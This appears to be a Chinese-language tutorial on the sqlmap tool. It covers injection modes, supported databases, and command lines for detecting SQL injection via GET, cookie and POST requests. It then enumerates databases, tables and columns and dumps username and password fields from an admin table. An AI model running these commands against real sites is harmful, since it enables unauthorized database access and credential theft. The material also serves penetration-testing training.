# 工具使用

## sqlmap工具

### sqlmap简介

sqlmap支持五种不同的注入模式：

1. 基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
2. 基于时间的盲注，即不能根据页面的返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
3. 基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
4. 联合查询注入，可以使用union的情况下的注入。
5. 堆查询注入，可以同时执行多条语句的执行时的注入。

### sqlmap支持的数据库

`mysql、oracle、postgresql、Microsoft SQL server、Microsoft access、IBM DB2、sqlite、Firebird, Sybase和SAP MaxDB`

### 检测注入

* **基本格式**

```
get格式：
sqlmap -u "http://xxxx.xxx/index.php?id=x" 
默认使用level1检测全部数据库类型
sqlmap -u "http://xxx.xxx/index.php?id=x" --dbms mysql --level 3
指定数据库类型为mysql 级别为3（共5级，级别越高，检测越全面）
```

*   **跟随302跳转**

    当注入页面错误的时候，自动跳转到另一个页面的时候需要跟随302，当注入错误的时候，先报错再跳转的时候，不需要跟随302。目的：要追踪到错误信息。
* **cookie注入**

```
当程序有防止get注入的时候，可以使用cookie注入
sqlmap -u "http://xxx.xxx/index.php" --cookie  “id=11” –level 2（只有level达到2才会检测cookie）
```

* **post数据包注入**

```
可以使用burpsuite工具抓取post数据包
sqlmap -r "post数据包存放路径" -p "注入参数"  
```

### 注入成功后

* **获取数据库基本信息**

```sql
sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 –dbs
查询有哪些数据库
sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D test –tables
查询test数据库中有哪些表
sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D test -T admin –columns
查询test数据库中admin表有哪些字段
sqlmap -u "http://xxx.xxx/index.php?id=X" -D test -T admin -C "username,password" --dump
dump出字段username与password中的数据
```
